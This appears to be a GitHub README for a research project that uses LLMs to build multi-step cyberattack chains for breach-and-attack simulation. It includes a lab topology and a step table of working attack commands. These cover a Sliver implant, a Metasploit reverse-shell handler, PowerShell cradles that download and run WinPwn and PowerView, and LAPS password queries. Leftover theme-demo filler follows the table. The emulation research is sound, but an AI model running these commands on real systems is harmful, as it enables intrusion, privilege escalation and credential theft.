

Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.

[Link to another page](./another-page.html).

# Aurora-demos

Aurora is a framework that can construct multi-step cyberattacks (attack chains).
With the help of LLM, it makes use of external attack tools and threat intelligence reports.

We are preparing publishing the source code of Aurora.

## 🎉 Introduction

<p><a href="https://arxiv.org/pdf/2407.16928"></a></p>

- Introduces AURORA, a PDDL-based cyberattack simulation system.
- Integrates LLMs into PDDL for real-world BAS.
- Automates construction of a 1,800+ action attack space with over 300 chains.
- AURORA generates higher quality attack plans with broader TTP coverage.

Our paper: [From Sands to Mansions: Simulating Full Attack Chain with LLM-Organized Knowledge](https://arxiv.org/pdf/2407.16928)

## Attack Demos
This repo stores attack demos generated by Aurora, which can be found in the `examples/` folder.
Each folder in `examples/` contains an attach chain, which includes the emulation plan details and attack steps.

### Emulation Plan Details

| Field           | Description       |
|:-------------   |:------------------|
| Adversary Name  | This refers to the name or codename of the attacker being simulated in the exercise. |
| Creation Time   | This indicates the exact date and time when the emulation plan or attack scenario was created. |

### Attack Step

| Field        | Description          |
|:-------------|:------------------|
| uuid  | A unique identifier for the attack step, ensuring that each step can be individually referenced and tracked. |
| name   | A human-readable name for the attack step, which describes what the step aims to achieve or the action being performed. |
| id   | An identifier that may be used within a specific framework or system to reference the attack step. |
| source   | The origin or creator of the attack step, which can indicate whether it was developed internally, derived from a known threat intelligence source, or part of a manual process. |
| supported_platforms   | The operating systems or environments on which the attack step can be executed. |
| tactics   | The high-level goals or phases of the attack that this step supports. |
| technique   | The specific methods or technologies used in the attack step.  |
| description   | A detailed explanation of what the attack step does. |
| executor   | The command, script, or series of actions that need to be executed to carry out the attack step. |
| arguments   | Any parameters or inputs required by the executor to function correctly. |
| preconditions   | The conditions that must be met before the attack step can be successfully executed.  |
| effects   | The outcomes or changes that result from executing the attack step. |

## Emulation Scenario
### Emulation Infrastructure
<p align="center">
  
</p>

#### Attacker information

| System        | IP Address          |
|:-------------|:------------------|
| Kali   | 192.168.56.33 |
| Windows10   | 192.168.56.34 |

1. **Linux Attack Platform**: tested and executed on Kali Linux
    - C2 Framework
      - [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
      - [Sliver Framework](https://sliver.sh/)

2. **Windows Attack Platform**: Windows 10
    - C2 Framework
      - [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
      - [Sliver Framework](https://sliver.sh/)

---


#### DNS_server information

| System        | IP Address          |
|:-------------|:------------------|
| Debian   | 192.168.56.100 |


#### Victim information

| System        | IP Address          |
|:-------------|:------------------|
| Windows10   | 192.168.56.15 |
| Ubuntu   | 192.168.56.16 |
| macOS   | 192.168.56.17 |

You can download the attack simulation environment from [here](https://drive.google.com/file/d/1cx-xcn10rDQaoq1SC9CW__0tbZVA5rEo/view?usp=sharing).

### Scenario Steps
Each `uuid` encompasses an `executor`, within which the `command` parameter specifies the actual attack command that needs to be executed. You should proceed manually through the attack steps in the sequence of the UUIDs.

| Steps        | Description	                  | Executor                 |
|:-------------|:-------------------------------|:-------------------------|
| Implant Generation | Sliver generates implant for Windows platform and enables mtls monitoring. | sliver > generate beacon --arch amd64 --os  windows --mtls 192.168.130.128 --save <br> sliver > mtls  |
| Execution | Download&Execute the sliver implant.   | sliver > sessions -i session_id |
| Directory Disclosure | The pwd command in a Sliver session prints the current working directory of the active session. | sliver > pwd   |
| Build meterpreter session  |Use sliver and msf linkage, msf starts monitoring, sliver bounces a shell back,so that msf establishes a shell connection with the target host. | # msfconsole<br>msf6 > use exploit/multi/handler<br>msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https<br>msf6 exploit(multi/handler) > set lport 9091<br>msf6 exploit(multi/handler) > set lhost 192.168.130.128<br>msf6 exploit(multi/handler) > exploit -j -z<br> sliver (BOLD_MUSCULATURE) > msf --lhost 192.168.130.128 -l 9091<br>msf6 exploit(multi/handler) > sessions 1 |
| Process Enumeration | The command lists remote system processes. | sliver > ps  |
| Interactive Shell Access | Open an interactive shell on the compromised machine   |  sliver (SESSION_NAME) > shell |
| User Context Verification | Simply collect the user information of the target machine | sliver (BOLD_MUSCULATURE) > whoami   |
| Printercheck  | To search for printers or potential vulnerabilities related to printers. | # powershell<br>$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'<br>iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')<br> printercheck -noninteractive -consoleoutput |
| Enumerate Active Directory Users  | Utilizing ADSISearcher to enumerate users within Active Directory. | # powershell<br>([adsisearcher]"objectcategory=user").FindAll(); ([adsisearcher]"objectcategory=user").FindOne()  |
| Get-ForestTrust | Use PowerView's Get-ForestTrust to show forest trust info.   | [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12<br>IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose |
| Suspicious LAPS Query           | Executes LDAP query via Get-ADComputer to list Microsoft LAPS attributes.      | Get-ADComputer #{hostname} -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime   |
| WMIObject Group Discovery           | To enumerate local groups on the endpoint. | Get-WMIObject Win32_Group |
| Enumerate accounts    | Enumerate all accounts via PowerShell. |  net user /domain<br>get-localgroupmember -group Users<br> get-aduser -filter *  |
| Pop System Shell | Pop System Shell using Token Manipulation technique via function of WinPwn   | iex(new-objectnet.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem  |
|UI Control Manipulation          | The command `uictl` is used within a Meterpreter session to control user interface components on a compromised system.      | uictl [enable/disable] [keyboard/mouse/all]  |


##### Header 5

1.  This is an ordered list following a header.
2.  This is an ordered list following a header.
3.  This is an ordered list following a header.

###### Header 6

| head1        | head two          | three |
|:-------------|:------------------|:------|
| ok           | good swedish fish | nice  |
| out of stock | good and plenty   | nice  |
| ok           | good `oreos`      | hmm   |
| ok           | good `zoute` drop | yumm  |

### There's a horizontal rule below this.

* * *

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And an ordered list:

1.  Item one
1.  Item two
1.  Item three
1.  Item four

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image


### Large image


### Definition lists can be used with HTML syntax.

<dl>
<dt>Name</dt>
<dd>Godzilla</dd>
<dt>Born</dt>
<dd>1952</dd>
<dt>Birthplace</dt>
<dd>Japan</dd>
<dt>Color</dt>
<dd>Green</dd>
</dl>

```
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```
The final element.
```
